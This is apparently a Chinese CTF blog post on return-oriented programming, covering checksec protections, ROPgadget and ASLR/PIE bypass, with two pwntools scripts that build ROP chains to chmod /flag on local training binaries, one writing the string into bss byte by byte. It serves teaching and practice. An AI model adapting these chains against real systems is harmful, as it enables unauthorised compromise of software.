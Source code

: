 ```yaml
---
layout: post
tags: [pwn]
title: "ROP 利用手法"
author: wsxk
date: 2025-1-15
comments: true
---
```


- [0. checksec起手](#0-checksec起手)
- [1. ROP gadgets 搜索](#1-rop-gadgets-搜索)
  - [1.1 ROPgadget](#11-ropgadget)
- [2. ROP 防御绕过技巧](#2-rop-防御绕过技巧)
  - [2.1 只开启ASLR(Address Space Layout Randomization)](#21-只开启aslraddress-space-layout-randomization)
    - [2.1.1 泄露stack地址完成绕过](#211-泄露stack地址完成绕过)
    - [2.1.2 no-pie写bss段](#212-no-pie写bss段)

# 0. checksec起手<br>
一般情况下，安装`pwntools`后，就会默认帮你安装`checksec`，这个命令非常好用，主要的功能是帮助你了解程序开启了哪些保护。<br>
![](https://raw.githubusercontent.com/wsxk/wsxk_pictures/main/2024-9-25/20250112103808.png)
```
Arch: 
程序架构，这里告诉你是x86_64

RELRO(read only relocation): 
设置符号重定向表格为只读或在程序启动时就解析并绑定所有动态符号，从而减少对GOT（Global Offset Table）攻击。RELRO为” Partial RELRO”，说明我们对GOT表具有写权限。

Stack: 
有无canary

NX: 
no-execute，即栈不可执行

PIE(position independent executable): 
位置无关代码

SHSTK: 前提条件，开启CET（CONTROL-FLOW ENFORCEMENT TECHNOLOGY）
shadow stack，当shadow stack开启时，CALL指令会把返回地址同时压入数据栈和影子栈（shadow stack），RET指令会把返回地址同时从数据栈和影子栈取出，并比较。
如果从两个栈中取出的返回地址不匹配，那么就会触发控制保护异常（#CP）

IBT: 前提条件，开启CET（CONTROL-FLOW ENFORCEMENT TECHNOLOGY）
indirect branch tracker,应用于间接跳转（jmp/call指令），如果在间接跳转后的下一条指令不是ENDBR32或ENDBR64，就会触发#CP异常。
并不包括RIP相对跳转、远直接jmp跳转、call相对跳转等，这些都是跳转到固定地址，不存在被篡改的可能，因此IBT并不作用于这种情况

Stripped：是否去了符号 

```
总之，开始ctf之前，起手checksec是常规操作<br>

# 1. ROP gadgets 搜索<br>
工欲善其事，必先利其器<br>
ROP中的gadget，人工搜索不现实，这里列出几个常见的好用的rop gadget搜索工具<br>
## 1.1 ROPgadget<br>
`pwntools`安装好后自带的gadget搜索工具<br>
![](https://raw.githubusercontent.com/wsxk/wsxk_pictures/main/2024-9-25/20250113192206.png)
通常情况下，`ROPgadget`能满足绝大部分需求<br>


# 2. ROP 防御绕过技巧<br>
## 2.1 只开启ASLR(Address Space Layout Randomization)<br>
ASLR和pie的关联和联系是：<br>
```
pie是一种编译选项，即这个程序是否是位置无关的代码；
aslr是系统选项，对于开启了aslr的系统，在加载程序时，会尝试把程序装载到随机的基地址上

如果：
1、关闭aslr
  程序无论是否有pie，装载基地址不变

2、开启aslr，且值为1
  程序没有pie，程序本身装载基地址不变；除heap外的其他部分（如libc、stack等等）会装载在随机地址
  程序有pie，程序本身装载基地址也会变化

3、开启aslr，且值为2
  程序没有pie，程序本身装载基地址不变；其他部分（如libc、stack、heap等等）会装载在随机地址
  程序有pie，程序本身装载基地址也会变化
```

### 2.1.1 泄露stack地址完成绕过<br>
如果你知道`stack`的地址的话,我们可以**引用 写在栈空间上的数据，完成利用**<br>
```python
from pwn import *
context.log_level = 'debug'

p = process("./babyrop_level4.0")
p.recvuntil(b"[LEAK] Your input buffer is located at: 0x")
stack_addr= int(p.recv(12),16)
print("buffer_addr:",hex(stack_addr))

syscall = 0x0000000000402641
pop_rdi_ret = 0x0000000000402669
pop_rsi_ret = 0x0000000000402671
pop_rdx_ret = 0x000000000040264a
pop_rcx_ret = 0x0000000000402662
pop_rax_ret = 0x0000000000402651
payload = b"/flag\x00".ljust(0x50+8,b"a")+ p64(pop_rdi_ret)+p64(stack_addr)+p64(pop_rsi_ret)+p64(511)+p64(pop_rax_ret)+p64(90)+p64(syscall)
#print(shellcraft.sh())
p.send(payload)
p.interactive()
```

### 2.1.2 no-pie写bss段<br>
如果系统开启了aslr，但是程序是`no-pie`的，这意味着程序段的地址是固定的，我们可以先在bss段中写入我们想要使用的字符串，比如"/flag"，然后进行二次利用：<br>
**核心思路：bss段的值默认为0；且代码中能够找到`pop rcx; ret`、`pop rax; ret`、`add byte ptr [rcx], al ; pop rbp ; ret`三个gadgets，这样即可直接写入字符串**<br>
```python
from pwn import *
context.log_level = 'debug'

p = process("./babyrop_level5.0")
gdb.attach(p)
pause()

syscall = 0x000000000040270f
pop_rdi_ret = 0x00000000004026df
pop_rsi_ret = 0x00000000004026ff
pop_rdx_ret = 0x00000000004026f0
pop_rcx_ret = 0x0000000000402708
pop_rax_ret = 0x00000000004026e8
# 0x000000000040127b : add byte ptr [rcx], al ; pop rbp ; ret
add_byteptrrcx_al_pop_rbp_ret = 0x000000000040127b

bss_addr = 0x405200
key_string = b"/flag\x00"
payload = b"a".ljust(0x60+8,b"a")
for i in range(len(key_string)):
    payload += p64(pop_rcx_ret)+p64(bss_addr+i)+p64(pop_rax_ret)+p64(key_string[i])+p64(add_byteptrrcx_al_pop_rbp_ret)+p64(0)
payload +=  p64(pop_rdi_ret)+p64(bss_addr)+p64(pop_rsi_ret)+p64(511)+p64(pop_rax_ret)+p64(90)+p64(syscall)
#print(shellcraft.sh())
p.send(payload)
p.interactive()
```
